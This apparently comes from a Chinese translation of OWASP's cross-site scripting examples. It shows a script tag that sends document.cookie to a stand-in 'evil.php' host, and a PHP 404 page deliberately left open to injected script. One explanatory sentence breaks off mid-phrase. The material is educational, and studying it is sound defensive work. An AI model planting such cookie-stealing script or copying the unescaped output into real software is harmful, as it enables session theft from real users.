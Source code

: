 # 攻击示例
## 示例1：cookie抓取
- 如果该应用不对输入的数据进行验证，攻击者可以轻易地从认证的用户窃取Cookie。所有攻击者所要做的就是在任何发布的输入（即：留言板，私人消息，用户配置文件）中放置以下代码：

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

上面的代码会传递cookie的转义内容（根据RFC内容必须在通过HTTP协议使用GET方法发送之前将其转义）传递给evil.php脚本中的“cakemonster”变量。攻击者随后查看evil.php脚本的返回（cookie抓取者脚本通常会将cookie写入文件）并使用

## 示例2：错误页面
- 假设我们有一个错误页面，它处理对一个不存在的页面的请求，一个经典的404错误页面。 我们可以使用下面的代码作为示例来告知用户缺少什么特定的页面：

```html
<html>
<body>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

让我们看看它是如何工作的
`http://testsite.test/file_which_not_exist`
在响应中我们得到
`Not found: /file_which_not_exist`
现在强制在锁舞页面中包含我们的代码
`http://testsite.test/<script>alert("TEST");</script>`
结果是
`Not found: / (但包含JavaScript代码 <script> alert（“TEST”）; </script>)`
我们已经成功地注入了代码，我们的XSS！这意味着什么？例如，我们可能会利用这个漏洞来试图窃取用户的会话cookie。

# 相关攻击

- [XSS攻击](https://tinytracer.com/archives/owasp%e4%b8%aa%e4%ba%ba%e6%b1%89%e5%8c%96%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%ef%bc%9a%e8%b7%a8%e7%ab%99%e7%82%b9%e8%84%9a%e6%9c%ac%ef%bc%88xss%ef%bc%89/ "XSS攻击")
- [类别：注入攻击](https://www.owasp.org/index.php/Category:Injection_Attack "类别：注入攻击")
- [调用不可信的移动代码](https://www.andseclab.cn/2018/04/15/owasp%e6%b1%89%e5%8c%96%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%e5%9b%9b%e5%8d%81%e4%b8%89%e7%a7%bb%e5%8a%a8%e4%bb%a3%e7%a0%81-%e8%b0%83%e7%94%a8%e4%b8%8d%e5%8f%af%e4%bf%a1/ "调用不可信的移动代码")
- [跨站点历史操作（XSHM）](https://tinytracer.com/archives/%ef%bc%88owasp%e4%b8%aa%e4%ba%ba%e6%b1%89%e5%8c%96%ef%bc%89%e6%94%bb%e5%87%bb%e7%b3%bb%e5%88%97%e5%a4%a7%e5%85%a8%ef%bc%9a%e8%b7%a8%e7%ab%99%e7%82%b9%e5%8e%86%e5%8f%b2%e6%93%8d%e4%bd%9c/ "跨站点历史操作（XSHM）")
